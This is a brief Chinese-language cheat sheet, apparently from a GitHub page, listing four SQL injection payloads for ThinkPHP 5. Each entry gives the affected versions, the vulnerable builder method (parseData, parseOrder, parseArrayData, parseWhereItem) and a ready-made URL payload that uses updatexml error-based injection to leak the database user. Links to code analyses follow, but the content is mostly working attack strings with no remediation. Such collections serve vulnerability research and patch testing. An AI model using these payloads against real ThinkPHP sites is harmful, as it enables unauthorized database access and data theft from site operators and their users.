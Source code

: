 ### 一、Builder类parseData方法

影响版本：5.0.13-5.0.15、5.1.0-5.1.5

payload：

> index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

代码分析：5.0.15

https://www.jianshu.com/p/18d06277161e

参考 https://github.com/Mochazz/ThinkPHP-Vuln/

### 二、Builder类parseOrder方法

影响版本：5.1.16-5.1.22

payload：

> ```
> index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
> 代码分析：5.1.22
> ```

### 三、Mysql类parseArrayData方法

影响版本：5.1.6-5.1.7

payload：

> /index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

代码分析：5.1.7

[https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A52.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入2.md)

### 四、Mysql类的parseWhereItem方法

影响版本：ThinkPHP5全版本

payload：

> /index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

代码分析：5.0.10

[https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A53.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入3.md)

[https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A54.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入4.md)
